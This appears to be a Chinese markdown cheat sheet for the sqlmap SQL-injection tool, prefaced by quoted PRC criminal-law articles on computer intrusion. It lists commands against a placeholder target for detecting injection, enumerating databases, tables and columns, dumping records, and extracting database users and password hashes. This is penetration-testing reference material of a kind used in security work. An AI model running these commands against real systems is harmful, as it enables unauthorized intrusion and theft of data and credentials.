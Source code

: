 # SQLMAP

!!! warning "《中华人民共和国刑法》"
	第二百八十五条　【非法侵入计算机信息系统罪】违反国家规定，侵入国家事务、国防建设、尖端科学技术领域的计算机信息系统的，处三年以下有期徒刑或者拘役。
	
	【非法获取计算机信息系统数据、非法控制计算机信息系统罪】违反国家规定，侵入前款规定以外的计算机信息系统或者采用其他技术手段，获取该计算机信息系统中存储、处理或者传输的数据，或者对该计算机信息系统实施非法控制，情节严重的，处三年以下有期徒刑或者拘役，并处或者单处罚金；情节特别严重的，处三年以上七年以下有期徒刑，并处罚金。

	【提供侵入、非法控制计算机信息系统程序、工具罪】提供专门用于侵入、非法控制计算机信息系统的程序、工具，或者明知他人实施侵入、非法控制计算机信息系统的违法犯罪行为而为其提供程序、工具，情节严重的，依照前款的规定处罚。

	第二百八十六条　【破坏计算机信息系统罪】违反国家规定，对计算机信息系统功能进行删除、修改、增加、干扰，造成计算机信息系统不能正常运行，后果严重的，处五年以下有期徒刑或者拘役；后果特别严重的，处五年以上有期徒刑。
	
	违反国家规定，对计算机信息系统中存储、处理或者传输的数据和应用程序进行删除、修改、增加的操作，后果严重的，依照前款的规定处罚。
	
	故意制作、传播计算机病毒等破坏性程序，影响计算机系统正常运行，后果严重的，依照第一款的规定处罚。

## 基本命令

### 判断是否存在注入

直接判断：

```shell
sqlmap.py -u "http://tar.get/?id=1"
```

从 HTTP 请求判断：

```shell
sqlmap.py -r http_request.txt
```

### 获取当前网站数据库的名称

```shell
sqlmap.py -u "http://tar.get/?id=1" --current-db
```

### 查询当前用户下的所有数据库

```shell
sqlmap.py -u "http://tar.get/?id=1" --dbs
```

### 查询数据库的表名

```shell
sqlmap.py -u "http://tar.get/?id=1" -D databaseName --tables
sqlmap.py -u "http://tar.get/?id=1" -D databaseName -T # abbr
```

### 查询表里面的字段名

```shell
sqlmap.py -u "http://tar.get/?id=1" -D databaseName -T tableName --columns
sqlmap.py -u "http://tar.get/?id=1" -D databaseName -T tableName -C # abbr
```

### 查询表里面的字段的值

```shell
sqlmap.py -u "http://tar.get/?id=1" -D databaseName -T tableName -C recordName --dump
```

### 获取数据库的所有用户

```shell
sqlmap.py -u "http://tar.get/?id=1" --users
```

### 获取数据库用户的密码

```shell
sqlmap.py -u "http://tar.get/?id=1" --passwords
```
